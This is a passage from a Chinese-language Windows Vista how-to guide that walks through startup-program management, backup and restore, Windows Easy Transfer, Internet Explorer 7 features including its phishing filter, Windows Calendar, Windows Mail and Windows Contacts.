- （2）当前运行程序：当前在屏幕上或后台中运行的程序。如有可疑程序可选择将其结束。
- （3）网络连接程序：可以连接到 Internet 或者家庭或办公室网络的程序或进程。在网络时代，软件也越来越依托网络了，但是你被流氓软件和恶意插件吓怕了，总想知道哪些软件连上了网络，这时使用“软件资源管理器”查看网络连接程序即可。
- （4）Winsock 服务提供程序：执行 Windows 的低级别网络连接和通信服务的程序以及 Windows 上运行的程序。这些程序通常具有对操作系统的重要区域的访问权限。

下面以“启动程序”为例，说明“软件资源管理器”的使用方法。在“类别”下拉列表框里选择“启动程序”选项，即可在页面的左侧显示当前系统的所有自启动进程，并且按照所属厂商进行归类。单击选中某个自启动进程，就可以在右侧的窗格里查看详细信息，例如：发行方是谁、是否具有数字签名（并且显示提供签名的厂商），该程序所在的路径，启动类型、是否属于 Windows 系统自带等。一旦你发现有可疑的非微软提供的启动程序，你可以通过信息进行分析，全面地判断该程序是否应该从启动程序中移除，最后，你可以单击“删除”或“禁用”按钮来解决掉这些危险的启动程序。另外，为了加快 Vista 的启动速度，也可以将多余的启动程序全部禁用掉。如果一旦哪天你发现禁用某个启动程序之后出现问题了，你还可以随时单击“启用”按钮将它恢复。

## 十二、让 Ghost 下岗：备份和还原

Windows 系统文件损坏、系统彻底崩溃无法进入桌面……这是多年来一直让用户深感头疼的问题。出现这些问题后，大多数情况下我们只能重装系统，而重装系统会耗费大量的精力和时间，这也是为什么 Ghost 软件和一键还原类工具如此风靡的原因。另外，我们也常常会遇到误删除、误格式化导致数据丢失的情况，在以前的 Windows 系统中，要恢复数据是比较麻烦的。现在， Vista 系统中有了全新的“备份和还原中心”，几乎所有数据的备份和恢复工作都可以通过它完成，看来 Ghost 要下岗了？让我们一起来看看吧。

使用“开始”菜单→“控制面板”→“系统和维护”→“备份和还原中心”进入“备份还原中心”，也可以使用“开始”菜单→“所有程序”→“维护”→“备份和还原中心”来打开它。我们可以看到备份和还原的相关功能主要有五大类，依次为：备份文件、备份计算机、还原文件、还原计算机、系统还原 (见图19)。



### 1. 备份文件

有选择地将当前 Vista 系统中的图片、音乐、视频、电子邮件等类型的文件备份，为日后还原做好准备。具体步骤如下：单击“备份文件”按钮，然后选择保存备份的位置，备份位置可以是本地硬盘、刻录机、外置硬盘或是网络上的电脑、服务器等。接着选择要备份哪些硬盘分区上的文件，默认情况下所有硬盘分区都会被选中，你可以对其进行筛选，但是安装 Vista 的分区始终会被选中，也就是说系统分区上的文件一定会被备份。接着选择要备份的文件类型，然后设定自动备份的频率和时间，最后单击“保存设置并开始备份”按钮，进行备份操作。

在第一次“备份文件”操作后，在“备份文件”按钮下将出现“更改设置”选项，单击它会打开“备份状态和配置”窗口，单击“立即备份”和在“备份和还原中心”中再次单击“备份文件”按钮的效果一样，将会使用上次的备份设置，扫描新的或更新的文件，再次进行备份。如果要更改备份设置，或进行新的备份，则应该单击“更改备份设置”按钮。在这里，还可以通过单击“关闭”或“启动”按钮，来关闭或启动自动备份功能。

### 2. 还原文件

经过“备份文件”操作后，当我们的文件被损坏或误删除时，就可以使用还原文件功能了。在“备份和还原中心”中单击“还原文件”按钮，在“你想还原什么？”任务中，选择“文件来自最新备份”选项；如果你要从文件的较早版本还原，则你需要选择“文件来自较旧备份”，再根据备份日期选择一个备份文件。最后单击“下一步”按钮，在这一步，你需要单击“添加文件”或“添加文件夹”按钮，选择要还原的文件或文件夹。例如，你误删了管理员账户下的“图片”文件夹中的图片，这里就可以单击“添加文件夹”按钮，选中“图片”文件夹，然后单击“下一步”按钮。

这一步选择将还原的文件保存到什么位置，默认选择还原到“在原始位置”；如果你不想影响现有的文件，可以选择“在以下位置”，然后指定一个位置，此时建议选中“将文件还原到它们的原始子文件夹”和“为驱动器号创建一个子文件夹”选项，这样做的目的是在还原文件以后，方便我们识别文件的原始位置。最后单击“开始还原”按钮。

如果你选择将还原文件保存到“原始位置”，则还原过程中会替换同名文件，这时会弹出对话框给出提示，你有三个选择：一、复制和替换。将备份中的文件替换目标文件夹中的同名文件。二、不要复制。取消对同名文件的替换，此举将不更改任何文件。三、复制，但保留这两个文件。将备份中的文件复制并重命名，此举将同时保留原有同名文件，比较安全，如果磁盘空间较富裕，建议尽量选用这种方式。另外，建议选中下方的“对于所有冲突执行此操作”，将不用再对要替换的文件逐个进行选择。

接下来会进行还原操作直至完成。在“备份和还原中心”单击“还原文件”下的“高级还原”，还可以启动高级还原方式，从其他计算机上的备份进行还原操作。

### 3. 备份计算机

“备份计算机”可以解释为电脑的完整备份，备份将包括当前系统盘的所有的系统文件、隐藏文件和个人文件等，而不是仅仅只备份数据文件。“备份计算机”可以只备份系统分区，也可以同时备份系统分区和其他分区。备份程序会对你的硬盘创建一个镜像，相当于用Ghost把系统盘分区（或系统分区和其他分区）备份下来。这样，当系统发生故障时，可以直接运行“还原计算机”，使用镜像文件恢复之前的能够正常运行的系统，或者恢复其他分区。微软建议每六个月创建一次新的镜像。

具体步骤如下：单击“备份计算机”按钮，然后选择保存备份的位置，可以备份到本地硬盘上，也可以使用DVD刻录机备份到光盘上，需要注意的是，一、备份无法保存在动态磁盘分区上；二、保存备份的分区必须采用NTFS格式。接着选择要备份哪些硬盘分区上的文件，安装Vista的系统分区始终会选中，你也可以选择将其他分区也备份进来（一般没必要），最后单击“开始备份”按钮即可。

### 4. 还原计算机

“还原计算机”可以解释为电脑的完整还原，相当于用Ghost将备份的系统分区和其他分区还原。在进行“还原计算机”操作前，需要注意：从Windows Complete PC备份映像中还原计算机时，将进行完整还原，不能选择个别项进行还原，当前的所有程序、系统设置和文件都将被替换。

还原计算机的步骤如下：首先，重新启动电脑。如果电脑仅安装了一个操作系统，则在重启时反复按F8键，进入高级启动选项；如果电脑安装了多个操作系统，则使用方向键定位到Vista系统，然后按F8键，进入高级启动选项。在“高级启动选项”菜单上，选择“修复计算机”，然后按Enter键。接下来选择键盘布局，然后单击“下一步”。选择用户名并键入密码，然后单击“确定”。在“系统恢复选项”菜单上单击“Windows Complete PC 还原”，然后按照说明进行操作即可。

### 5. 系统还原

在Windows XP中就引入了这一功能，相信很多读者都对它非常熟悉，为了让用户更容易上手，微软在Vista中保留了此功能。

在Windows Vista中开启系统还原后，系统即会在安装新的硬件、应用程序时自动创建系统还原点，当然，用户也可随时手动创建系统还原点。这样，当硬件、软件安装失败或者需要灾难恢复时，便可以使用之前创建的系统还原点恢复正常的系统。系统还原不会对任何个人数据产生影响。

在“备份和还原中心”中单击左上角的“创建还原点或更改设置”，将会打开“系统属性”对话框并定位到“系统保护”选项卡。选中Vista所在系统盘，然后单击“创建”按钮，输入此还原点的描述内容，不要偷懒，尽量要描述得清楚一些，最后单击“创建”按钮手动为系统创建一个还原点。在进行一些比较“危险”的操作（例如安装一个未知程序或驱动程序，它们可能会导致系统异常）前，应该先为系统所在分区手动创建一个还原点。

当需要进行系统还原时，可以在“备份和还原中心”的左上角单击“使用系统还原修复Windows”，单击“下一步”按钮，选择一个还原点。你可能会觉得选择还原点是一件困难的事，这正好说明前面为还原点添加描述的重要性。

选择还原点后单击“下一步”按钮，关闭所有应用程序，再单击“完成”按钮，系统将会重启并完成还原操作。

最后，要提醒读者注意两点：一、使用“开始”菜单→“所有程序”→“附件”→“系统工具”→“备份状态和配置”，可以打开“备份状态和配置”程序。“备份状态和配置”的所有功能都包含在“备份和还原中心”里，“备份状态和配置”不是另外一种备份和还原功能，它只不过提供了一个相对比较简单的界面和接口，这一点很容易把用户搞糊涂了。二、如果你将重要文件备份在一个外置硬盘、DVD或CD上，请确定将它们放在安全的地方，以防有人能够访问到它们，最好还需要对文件加密。

结语：Vista的“备份和还原”中心有很强大的备份和还原功能，但是上手并不容易，希望本文能帮助读者掌握它。另外，“还原计算机”的操作还是不太方便，这一点没有Norton Ghost做得好。

## 十三、设置新电脑：Windows轻松传送

你的电脑中灌满了各式各样的数据和设置，将所有数据转移到新电脑中显然是一件很麻烦的事情，尤其是在多个家庭成员共用一台电脑的情况下。Vista中的“Windows轻松传送”可以帮你轻松完成任务。

在Windows XP中，有一个用户资料备份和还原工具——文件和设置转移向导，它可以帮助用户将原来电脑上的数据文件、系统设置、个人设置等方便地转移到新电脑中，从而不再多重复在原来电脑上已进行过的设置。Vista中的“Windows轻松传送”可以看作是“文件和设置转移向导”的升级版。利用“Windows轻松传送向导”，你可以很容易地将一台电脑上的数据传送到另一台电脑上。

### 1. 在旧电脑上启动传送

一开始是一个欢迎画面，对“Windows 轻松传送”做了一个简介，并告诉你使用“Windows 轻松传送”不会删除旧计算机上的信息。

直接单击“下一步”按钮即可，如果此时有其他可执行程序运行，向导会给出提示，并强行将它们关闭。然后，向导会让你选择是开始一个新的传送，还是继续一个正在进行的传送。因为你是传送的发起方，所以这里选择“启动新的传输”。如果是新电脑要接收传送，则应选择“继续正在进行的传输”。

这里选择“启动新的传输”，接下来向导会让你选择“你正在使用哪一台计算机？”，这里选择“我的旧计算机”。

接下来向导会让你选择传输方法，包括：

- * 使用轻松传送电缆。对大部分人来说，这是最简单的方法，轻松传送电缆是一个特殊的 USB 线，专为 Vista 和它的轻松传送而设计的，你可以从许多零售商和电脑制造商那里购买。
- * 使用网络连接直接传送。如果你处于家庭或小型企业的内部网络，可以选择此选项。如果你有一个无线网络，你也可以利用它来传输数据。
- * 使用 CD、DVD 或其他可移动介质，这需要你的旧电脑上安装有刻录机。如果你只是想要转移少量的数据，CD 是一个好的解决方法，而 DVD 则能够装下更多的信息。你也可以将数据拷贝到移动硬盘中，再移动到另一台电脑上。

因为本例中的两台电脑位于局域网中，所以选择网络传输，单击“使用网络连接直接传送”。

接着选择通过网络传送的方法。因为两台电脑在局域网中可以直接通信，所以选择“使用网络连接”。如果进行传送的两台电脑不能直接通信，但能够访问同一网络文件夹或位置，则应该选择“从网络位置复制与复制到网络位置”。

因为要进行网络传送，所以这时弹出了 Windows 防火墙的提示，单击“是”按钮即可。

接着需要为“Windows 轻松传送”创建一个密钥。单击“否，我需要密钥”，程序会创建一个随机密钥，记住这个密钥。

### 2. 在新电脑上准备传送

来到新电脑中，启动“Windows 轻松传送”，然后选择“继续正在进行的传输”。这时向导会询问“你的计算机已连接到网络了吗？”，这里选择“是，我要通过网络传送文件和设置”。如果在旧电脑中是采用刻录的形式保存文件和设置，那这里就应该选“否，我已将文件和设置复制到 CD、DVD 或其他可移动介质中”。

接着，输入刚才记下的 Windows 轻松传送密钥，单击“下一步”按钮。Windows 轻松传送密钥不仅能让接收传送的新电脑轻松找到发动传送的旧电脑，而且使得传送过程更加安全。

接下来会弹出提示，告诉用户两台电脑已成功连接，应转到旧电脑上选择要传送的文件和设置。

### 3. 进行传送

转到旧电脑上，会发现 Windows 轻松传送的向导界面有了变化，要你选择需要传送旧电脑的哪些内容到新电脑上，有三个选项。

- * 所有用户账户、文件和设置（推荐）。若要确保不会遗漏任何重要内容，则此选项是最安全的。
- * 仅我的用户账户、文件和设置。可选择将迁移内容限制为仅仅你自己的账户。
- * 高级选项。精确指定要迁移哪些文件，适合有一定电脑基础的用户。

这里我们只想要传送 Windows 系统的文件和设置，而不传送其他分区的数据，所以选择“高级选项”。

接着精确指定要传送哪些内容，在“高级选项”中可以选择的传送内容包括：系统和程序设置、共享文件夹、各用户的“文档”、其他位置的文件等。在“其他位置的文件”选项下，可以选择将系统分区外的各个分区数据传送到新电脑上。最后单击“下一步”按钮。

接着，可以为传送到新电脑上的账户创建一个新用户名。

如果你想把用户数据传递到尚未创建的新账户中，可以在“新计算机上的用户账户”下输入一个新的用户名，这时虽然原有的账户密码不会传送到新计算机中，但在第一次登录新建账户时会提示你创建该账户的密码。另外，你也可以从“新计算机上的用户账户”下拉列表中选择当前系统中已有的用户，把原来账户的数据直接迁移过来。

接着，选择将旧电脑驱动器上的文件保存到新电脑的哪个驱动器上，使用默认设置或逐个指定，然后单击“下一步”按钮。

此时传送开始，旧电脑和新电脑中会同时显示传送进度。在旧电脑中，等待传送完毕后单击“关闭”按钮即可。

在新电脑中，传送完毕后会给出一个摘要，你可以单击“显示已传输的全部内容”查看传送的细节，最后程序会提示你：为了使更改生效，必须注销系统。注销并重新登录系统，你就可以看到传送到新电脑上的新账户和文件了。

结语：将旧文件和设置移至新电脑中是件非常令人头痛的事，由此出现的生产效率损失的情况也让人颇有压力。然而，Vista 的“Windows 轻松传送”大大简化了将文件和设置传送到新电脑中的过程。毫无疑问，这个好用的工具将会对个人以及小型办公环境下 PC 到 PC 的数据迁移和系统维护起到莫大的帮助。除了在更新升级电脑时，你可以利用“Windows轻松传送”把老电脑中的用户数据传送到新电脑中以外，在重新安装系统时你同样也可以利用这个功能保存你的设置，并传送到新系统中。

## 十四、更加安全、好用的网页浏览器：IE 7

IE 6 的安全性和易用性一直被人诟病，以致很多网民都选择投靠了 Maxthon、Firefox、Opera 等浏览器的阵营。

# Vista 完全攻略

Windows Vista 中首次亮相的 Internet Explorer 7（以下简称 IE 7），相对于 IE 6 而言，无论在界面、功能或安全性方面都有了质的飞跃。

比以前的方框式传统窗口，IE 7 的界面可谓是光滑细腻，不仅外表更加漂亮，而且在界面设计上，IE 7 最大可能地减少了其他元素所占据的桌面空间，将更多的空间留给了网页。

在 IE 7 中，地址栏和多页浏览的标签栏固定于界面最顶端不能拖动，默认情况下隐藏了菜单栏（按 Alt 键即可快速打开或关闭菜单栏）和工具栏，使界面更加简洁，增大了网页的可视区域。一些常用的工具按钮，例如“前进”、“后退”、“刷新”和“停止”，都被整合到地址栏的两边，更便于使用。IE 7 还将收藏夹、RSS 源和历史记录合并为一个“收藏中心”，放置在标签栏的左边，方便用户查看。一些常用的菜单命令（如“页面”、“工具”等）则转移到了标签栏的右边（见图20）。


IE 的基本使用方法，广大网民都是驾轻就熟了，这里就不再赘述。下面介绍一下 IE 7 的新功能和新特性。

### 1. 多页面浏览

很多用户弃 IE 而改用 Maxthon、GreenBrowser 等网页浏览器的原因，就是因为 IE 不支持多页浏览。如今 IE 7 终于增加了多页面浏览功能，而其多页管理功能也非常强大。

打开 IE 7 后，浏览器自动新建一个标签，在标签右边有一个空白页按钮，将鼠标悬停至它上方会显示“新建选项卡”，单击它或按 Ctrl+T 快捷键会建立一个新的标签。浏览网页时，在要打开的网页链接上右击，并在快捷菜单中选择“在新的选项卡中打开链接”即可在新标签中打开网页。

如果打开多个标签，IE 7 会根据标签的数量自动调整标签的大小。右键单击标签，在弹出的菜单中有五个选项，分别是“新建标签”、“刷新”、“刷新全部”、“关闭其他标签”和“关闭本标签”。如果要关闭标签就必须通过这个菜单来关闭或者单击标签栏最右边的“关闭”按钮，目前 IE 7 无法像其他浏览器一样可以通过双击来关闭标签页，不是很方便，不过，这里告诉你一个好方法：在标签名称上单击（注意是单击，不是滚动）鼠标滚轮即可将其关闭（见图21）。


在 IE 7 中，单击一个超链接时，默认情况下都是以新窗口形式打开，如果你更喜欢多页面浏览方式，可以通过以下几种方法来解决该问题：

- (1) 右击该网页链接并在快捷菜单中选择“在新选项卡中打开”。
- (2) 在单击网页链接的同时按住键盘上的 Ctrl+Shift 组合键，即可在新标签页中打开该链接。
- (3) 用鼠标的滚轮去单击（注意是单击，不是滚动）超链接，即可在新标签页中打开该链接。
- (4) 按 Alt 键调出 IE 7 的菜单栏，选择“工具”→“Internet 选项”菜单，打开“Internet 选项”，然后在“常规”选项卡的“选项卡”选项下单击“设置”按钮，并在“选项卡浏览设置”对话框上确保选中“始终在新选项卡中打开弹出窗口”和“当前窗口中的新选项卡”，实现一劳永逸。

如果你同时打开了多个标签页，除了逐个单击这些标签页进行切换外，还可以单击标签栏左边的“快速导航选项卡”按钮或按 Ctrl+Q 键，可以以缩略图形式查看当前所有标签页中的网页，单击某个缩略图，即可快速定位到自己所需的标签页，非常方便和直观，当然，你也可以单击“快速导航选项卡”右边的三角按钮，在弹出的下拉列表中直接选择要切换到的标签页（见图22）。


### 2. 一次打开多个网页：标签组

很多时候用户希望能够一次性打开多个网页进行浏览。例如要浏览娱乐类新闻，每次我们会逐个打开 Sina 新闻、Sohu 新闻、腾讯新闻等等网页，利用 IE 7 的标签组功能，可以一次就将这些网页全部打开，方便很多。

首先，把要添加到标签组的网页都在选项卡中打开，然后单击“添加到收藏夹”按钮，在弹出的下拉菜单中选择“将选项卡组添加到收藏夹”，将这些网页命名并保存为一个标签组。

以后只需单击“收藏夹”按钮，打开该标签组就可同时打开该标签组中的所有网页。

### 3. 增强的搜索功能：搜索框

在 IE 7 中加入了网页搜索框，可以让用户不用打开搜索引擎主页而直接搜索。默认情况下 IE 7 使用的是“Live Search”搜索引擎。单击搜索框右边的箭头，选择“查找更多提供程序”，可以添加搜索提供商，如 Google、Yahoo、Baidu 等。添加搜索提供商后，再单击搜索框右边的箭头，在下拉列表中选择某个搜索引擎将其设为默认即可。

### 4. 高级网页打印功能

同以前版本相比，IE 7 大大增强了其网页的打印能力，它不再像以前 IE 6 那样打印网页时由于网页内容太大而造成部分内容被截掉。高级网页打印功能可以根据纸张大小自动调整网页篇幅，而且还可以指定打印网页的哪些内容，让用户更加随心所欲。

IE 7 的打印方法简述如下：首先打开要打印的页面，然后单击 IE 7 标签栏右方的“打印”菜单下的“打印预览”命令，打开“打印预览”窗口（见图23）。


新的打印设置窗口参照了 Word 的打印模式：我们可以轻松切换打印方向；可以设置网页中的文字大小，而后，IE 7 会根据新的文字大小与纸张规格自动排版，让以前很难打印完整的网页也能像 Word 文件一样，被轻松地打印出来；可以单击“页面设置”按钮，设置纸张、页边距等，还可以指定打印网页的哪些内容（需通过输入变量来实现，稍显复杂），更加随心所欲。设置并预览直到获得满意的效果，最后单击工具栏上最左边的“打印”按钮即可。

### 5. 支持 RSS 阅读

RSS 技术在最近一两年可谓迅猛发展，席卷了整个 Internet。RSS 是站点用来和其他站点之间共享内容的一种简易方式（也叫聚合内容），通常被用于新闻和其他按顺序排列的网站，例如 BLOG。你不了解 RSS 这个概念没关系，知道它能做什么就可以了：一、订阅 BLOG。你可以订阅你所需的技术文章；也可以订阅与你有共同爱好的作者的日志，总之，你对 BLOG 上什么感兴趣就订什么。二、订阅新闻。无论是奇闻怪事、明星消息、体坛风云，只要你想知道的，都可以订阅。

RSS 阅读器将新信息带到了用户的桌面，而无需用户去各个网站一遍遍地搜索，用户只要打开设置好的 RSS 阅读器，就可以等着信息“找上门来”。

通过 RSS，你再也不用各个网站一遍遍地搜索了。只要将你需要的内容订阅在一个 RSS 阅读器中，这些内容就会自动出现你的阅读器里，你也不必为了一个急切想知道的消息而不断地刷新网页，因为一旦有了更新，RSS 阅读器就会自己通知你！

现在大家可以看到很多网站都支持 RSS 提要订阅，而不少浏览器也同样支持 RSS 阅读的功能。在 IE 7 中同样支持了 RSS 阅读功能，用户可以非常方便地进行 RSS 种子的订阅、管理及使用。

在 IE 7 中使用 RSS 的方法很简单：如果你访问的网站拥有 RSS，那么 RSS 订阅按钮就会点亮，单击它就可以发现网页上的源（见图24）。



单击某个源（如果有一个以上的源可用）。如果只有一个源可用，则将直接转到该页面。单击“订阅该源”链接，输入源的名称，然后选择要在其中创建源的文件夹，最后单击“预订”按钮。

需要注意的是，你订阅的 RSS 源不在收藏夹中，它使用 RSS 平台存储，当需要重装系统时，千万不要忘记单独备份源，按 Alt 键激活 IE 菜单栏，再用“文件”→“导入和导出”命令，按照向导导出源即可。

在订阅了一个或多个源后，你可以在 IE 7 的“收藏中心”的“源”下面看到它们。单击它们就可以进行访问。IE 7 的 RSS 页面结构比较简单。它大体分为左右两个区域，其中左侧为新闻显示区，右侧为 RSS 筛选器。在这个页面中，我们可以随时通过 RSS 筛选器，对新闻进行筛选和排序，以方便自己的阅读。

单击 RSS 页面上的“查看源属性”，可以打开“源属性”窗口，进行更多高级设置，包括订阅源的更新频率等。

结语：与标签浏览一样，微软对于 RSS 支持也是拔尖的，尽管它的源视图被指与苹果的 Safari 相似。

### 6. 网页放大/缩小功能

在以前版本的 IE 版本中，我们只能对网页的文字进行放大或缩小。而在 IE 7 中提供了对整个网页的放大或缩小功能，让用户更方便、清晰地阅读到网页中的信息。具体使用方法是：

在 IE 状态栏右边有一个放大镜按钮，单击它右边的三角按钮，在弹出的菜单中选择页面缩放比例即可（见图25）。



按住 Ctrl 键的同时，向前或向后滚动鼠标滚轮，即可放大或缩小页面。也可以借助快捷键：Ctrl+“+”——放大（每次 10%）、Ctrl+“-”——缩小（每次 10%）、Ctrl+“0”（数字零）——原尺寸。

### 7. 增强的安全机制

Internet Explorer 的安全性向来都是被众多用户所诟病。为了重塑 IE 的形象，微软在 IE 7 中大幅改进了软件的安全性，主要包括反恶意程序和保护个人隐私数据两方面。

反恶意程序主要包括以下功能：

- (1) URL 处理的保护，更好地防止欺诈性恶意代码对系统的破坏。
- (2) ActiveX 插件管理。当 IE 受到各种插件的骚扰时，常常会变得面目全非，这些插件不仅拖慢系统速度，更有甚者，还能监视用户的上网行为，并把所记录的数据报告给插件程序的作者，以达到投放广告、盗取游戏或银行账号密码等非法目的。在 IE 7 中，用户可以更方便地对 ActiveX 插件进行禁止或启用，并在很大程度上对 ActiveX 插件进行限制，减少恶意 ActiveX 插件的危害，还可以提高 IE 的启动和运行速度。使用“工具”→“管理加载项”→“启用或禁用加载项”，即可打开“管理加载项”窗口，将多余插件通通禁用或者删除掉吧。
- (3) 防止跨域脚本攻击。该功能可以有效防范网络上最常见的跨域脚本的攻击。
- (4) IE 7 保护模式。保护模式禁止未经许可程序对本地硬盘和注册表写入数据（除 IE 临时文件夹之外），从多角度更好地保护普通用户上网安全。IE 7 的保护模式默认就是启用的，可以在 IE 7 窗口右下角看到“保护模式：启用”的提示信息。
- (5) 修复 IE 设置。如果发现当前 IE 设置不安全会自动提示用户，用户可以选择修复设置以保持较高安全性。
- (6) 与 Windows Defender 结合形成更为强大的保护。

在保护个人隐私数据方面，IE 7 加入了“反欺诈过滤器”，可帮助防止钓鱼网站。钓鱼网站是指伪装成银行及电子商务等的网站，主要危害是窃取用户提交的银行账号、密码等私密信息，会给用户造成巨大的财产损失。当你使用 IE 7 访问网站时，反钓鱼检测机制便开始自动工作，将网站的 URL 地址与合法网站地址清单进行对照。在这个过程中，IE 7 右下方状态栏会出现一个闪动的盾牌形状图标，显示核实状态，如果核实没有问题就会自动消失，如果发现网站是不合法的，那么过滤器就会显示警告消息，提示用户该网站被报告为钓鱼欺诈页面网站，并建议用户关闭该页面。

我们也可以手动对某个网页进行核实，方法是单击“工具”菜单→“仿冒网站筛选”→“检查此网站”，IE 7 就开始连接官方数据库进行核实。

在 IE 6 中，用户不得不花费许多时间，在“工具”菜单的好几个选项中选择清理相关的网站浏览信息，而且有时候还可能遗漏了某些重要信息没有删除。IE 7 对于安全更加重视，每一个细节都进行了充分的考虑。在 IE 7 中，用户可以一键删除浏览历史记录，包括删除 Cookies、网页密码保存记录以及临时 Internet 文件等。方法是使用“工具”→“Internet 选项”，打开“Internet 选项”窗口，单击“浏览记录”下的“删除”按钮，打开“删除浏览的历史记录”窗口，再单击“全部删除”按钮。

IE 7 的清除功能中还增加了一项设置，使用户能在使用浏览器的同时就清除记录，或在关闭浏览器时自动清除。这样就再也不用坐着干等浏览器删除历史数据了。

这里再介绍两个 IE 7 的小技巧，可以帮助你玩转 IE 7。

## 技巧一：设置“多首页”

无论是 IE 6 还是 Firefox，都只能指定一个网站作为浏览器首页，而现在的 IE 7 能让用户指定多个网站作为浏览器首页。选择“工具”→“Internet 选项”→“常规”，在“主页”下将需要的网址都输入各地址行即可。

如果想把正在浏览的当前网站设置为首页，只要单击“主页”按钮右边的三角按钮，并选择“添加或更改主页”命令，第一个选项是把该网站作为唯一首页，同时删除以前指定的浏览器首页；第二个选项则是把该网站添加到浏览器首页列表中。用第二种方法可以为 IE 7 设置多个首页。

## 技巧二：直接访问中文域名

我国早已开通“中文域名.cn”的注册，比如“建设银行.cn”、“农业银行.cn”等等。但是，以前想在浏览器地址栏中使用此类地址访问必须安装“中文上网”、“3721中文网址”之类的第三方插件，在 IE 7 中无需插件即可直接访问中文域名：依次单击“工具”菜单→“Internet 选项”→“常规”→“外观”→“语言”，在“后缀”后面输入“cn”，这样在地址栏中输入“农业银行”后按下“Ctrl+Shift+回车”组合键即可省略“www”并自动补全“.cn”而实现快速访问。

结语：IE 7 确实比原来的任何一款 IE 都要优秀，安全和好用，它的众多新特性绝对容不得你错过。

# 十五、安排事件有条不紊: Windows 日历

Windows XP 没有日程管理功能，所以在选择日程安排工具时，不少朋友都会用到微软 Office 中 Outlook 组件上的日历功能。其实在 Vista 操作系统，我们无需安装其他第三方工具，只要使用新增的“Windows 日历”功能，便可以让它体贴、周到地帮我们安排好各种日程事务，非常方便。虽然从严格意义上说，“Windows 日历”只是提供了基本的约会与事件日程表，并不能视作 Outlook 日历功能的继任者，不过其表现相当不错，让用户可以一目了然地安排每天、每周、每月的计划安排。它非常的简单易用，还能够通过设置，让它自动地给你提示，提醒你要完成的任务以及将来的约会。例如，你可以设置日历提前几分钟、几小时或几天对你发出提醒。你也可以设置它提醒你例会，例如每周五下午四点的例会，每月一次的个人理财总结等等。

### 1. 使用日历

使用“开始”菜单→“所有程序”→“Windows 日历”命令即可启动“Windows 日历”程序。当然，也可以在“开始”菜单的搜索框中输入“日历”或“calendar”来快速查找并启动程序。

下面我们来体验一下“Windows 日历”的实际功能，首先我们来创建新的约会。例如，我 5 月 20 日要参加大学同学聚会，单击工具栏上的“新建约会”按钮，这时会在窗口的右面看到创建的约会，设置一下约会的内容、位置、日历和时间，如果需要提醒的话，在“提醒”区域内开启“提醒”列表，选择一下提醒的周期就可以了（见图26）。



运行过“Windows 日历”，以后每次 Vista 启动时都会自动启动它，只要“Windows 日历”在运行状态，里面的约会信息就会在指定的时间提醒你，确保重要的事情不被忘记。我们还可以使用“文件”→“新建日历”命令，在“Windows 日历”中新建多个日历，例如，我们可以为“工作”、“生活”和“学习”分别建立日历。

### 2. 发布和订阅日历

“Windows 日历”不仅仅是为个人用户设计的，它还可以在办公应用上大展拳脚。在公司管理中，协同办公和项目的统筹管理是个很大而又让人头痛的学问，如果你的日程涉及到多个公司的多个项目团队，必须让团队成员轻松而又便捷地知道项目的进展规划和近期目标，这时，你可以把日历发布到网络或者局域网上面与同事共享。在左侧的“日历”窗格中选择要共享的日历，接着使用“共享”→“发布”菜单命令，或者单击“Windows 日历”右上角的“单击此处发布”，打开“发布日历”向导，输入日历名称以及选择发布日历的位置（如公司网站的链接位置），还可以选中“便笺”、“提醒”、“任务”这几个选项，让同事了解很多的日历信息，如果要让同事看到你对日历的修改，则应选中“自动发布对此日历的修改”。设置完毕后，单击“发布”按钮就可以发布日历了。

除了能够发布自己的日历外，我们还可以订阅别人的日历，实现日程共享，当然前提是别人的日历已经共享。在“Windows 日历”主界面下执行“共享”→“订阅”菜单命令，打开“订阅日历”对话框并进入“订阅日历”任务，输入要订阅日历的链接地址后单击“下一步”按钮，此后将会导入订阅的日历并进入“日历订阅设置”任务，这里可以设置好友日历的名称，更新日历的时间间隔等等，最好再选中“包括提醒”和“包括任务”两个选项，以获得比较详尽的日程信息。

注意：本文在做演示的时候，上面的地址都是本地地址，用户只要根据情况设置成自己的地址就行了。

结语：“Windows 日历”是一个很不错的日程工具，非常适合那些工作繁忙的人，这样即便你再忙，忘性再大，也不会忘记重要的事情了。但“Windows 日历”也有不足：没有与邮件客户端集成，日程与任务信息不能存储在企业的 Exchange server 上等。

# 十六、增强的邮件软件: Windows Mail



Windows Mail 的使用方法与 Outlook Express 并无多少不同，下面主要介绍一下它的新功能。

- 1. 快速查找功能
每天使用邮件客户端进行收发邮件相信已经成为很多人的日常习惯。而面对日积月累的邮件，我们会发现要从众多邮件中找到一封几个月甚至几年前的邮件越来越困难。而 Windows Mail 中也加入了快速查找功能，只要在右上角的搜索框中输入要查找邮件的相关信息，如：发件人姓名、邮件主题、Email 地址、邮件中的关键字等，它就可以帮助用户快速找到自己所需的邮件。大家可以发现，“快速查找”搜索框在 Windows Vista 几乎无处不在，而你也可以通过“开始”菜单或资源管理器的“快速查找”功能来进行邮件的查找。
- 2. 垃圾邮件过滤器
早在 Outlook Express 中就已经有了设置邮件规则进行邮件过滤功能，但是对于过滤垃圾邮件来说效果并不理想。而 Windows Mail 中加入了一个内置的垃圾邮件过滤器，在用户接收邮件时自动对邮件进行过滤，无需用户对其进行设置。
- 3. 欺诈邮件过滤器
为了更好地防范欺诈性邮件给用户带来的危害，Windows Mail 中加入了一个欺诈邮件过滤器，它可以检查邮件中包含的所有网页链接，如果发现有欺诈性链接就会主动拦截。Windows Mail 中的欺诈邮件过滤器与 IE 7 的反欺诈功能形成了两道坚实的防护栏。
- 4. 可靠性
经常使用 Outlook Express 的朋友可能会遇到这样的故障：当打开包含大数据量的邮件时提示出现错误，有时甚至导致邮件数据损坏。而 Windows Mail 采用了更为先进的邮件数据存储技术，可以在很大程度上杜绝此类现象的发生。
- 5. 新闻组特性
虽然在以前的 Outlook Express 中就包含新闻组功能，但是它由于功能简单，操作不方便，不被很多人所知晓。而在 Windows Mail 中，作为特性之一的新闻组功能被重新包装：它让用户更加容易地创建、管理新闻组，而且...简化了发表、回复新闻帖子的过程。使用方法很简单，在左边窗格中的“Microsoft社区”上单击右键，选择“新闻组”命令，即可查看微软社区的新闻组列表，选择要订阅的新闻组后并单击“转到”按钮即可订阅。

## 十七、新款通讯簿工具：Windows联系人

Vista中提供了新款通讯簿工具——“Windows联系人”，使用它可创建个人和组织的联系人，保持与他们的密切联系。“Windows联系人”可以保存联系人的各种信息，包括：姓名、职位、邮件、住宅、工作、家庭、注释等，我们还可以为联系人设置头像，以方便识别。

“Windows联系人”的使用方法很简单：使用“开始”菜单→“所有程序”→“Windows联系人”命令启动它（见图28）。



